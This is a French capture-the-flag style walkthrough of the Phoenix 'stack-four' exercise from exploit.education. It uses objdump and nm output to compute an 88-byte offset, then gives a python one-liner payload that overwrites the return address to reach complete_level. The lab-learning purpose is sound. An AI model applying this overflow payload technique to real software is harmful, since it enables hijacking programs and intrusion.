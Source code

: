 - On n'a plus la struct, autrement dit le compilateur peut choisir l'ordre qui lui va.
- Maintenant, on doit réécrire l'adresse de retour `push` par l'instruction `call start_level()` pour **retourner** vers `complete_level()` au lieu de `main()`.
- Sachant que la pile doit être alignée sur 16 et que le compilateur peut sauvegarder des registres dans la pile, on ne peut pas calculer directement le nombre d'octets nécessaires sans voir le code assembleur.

```sh
user@phoenix-amd64:~$ objdump --disassemble /opt/phoenix/amd64/stack-four 
```
```
0000000000400635 <start_level>:
  400635:	55                   	push   %rbp
  400636:	48 89 e5             	mov    %rsp,%rbp
  400639:	48 83 ec 50          	sub    $0x50,%rsp 
  40063d:	48 8d 45 b0          	lea    -0x50(%rbp),%rax
  400641:	48 89 c7             	mov    %rax,%rdi
  400644:	e8 27 fe ff ff       	callq  400470 <gets@plt>
  400649:	48 8b 45 08          	mov    0x8(%rbp),%rax
  40064d:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  400651:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  400655:	48 89 c6             	mov    %rax,%rsi
  400658:	bf 33 07 40 00       	mov    $0x400733,%edi
  40065d:	b8 00 00 00 00       	mov    $0x0,%eax
  400662:	e8 f9 fd ff ff       	callq  400460 <printf@plt>
  400667:	90                   	nop
  400668:	c9                   	leaveq 
  400669:	c3                   	retq   
```

- On voit que `%rbp` fut push dans la pile.
- L'instruction `sub` nous dit que **0x50=80** octets furent alloués. Et la préparation de l'appel à `gets(buffer);` nous permet de savoir que notre buffer commence au sommet de la pile (l'adresse la plus basse).
- Pour ainsi dire, on doit écrire **80+8** octets avant d'arriver à l'adresse de retour.

```sh
user@phoenix-amd64:~$ nm /opt/phoenix/amd64/stack-four  
...
000000000040061d T complete_level
...
```
```sh
user@phoenix-amd64:~$ python -c 'print("E"*88+"\x1d\x06\x40\x00\x00\x00\x00\x00")' | /opt/phoenix/amd64/stack-four 
```
```
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

> Il faut que vous sachiez que ce n'est pas toutes les architectures CPU qui enregistrent l'adresse de retour dans la pile. Souvent il existe ce qu'on appelle le [link register](https://en.wikipedia.org/wiki/Link_register) qui se charge de garder l'adresse de retour au lieu de faire des accès mémoires !

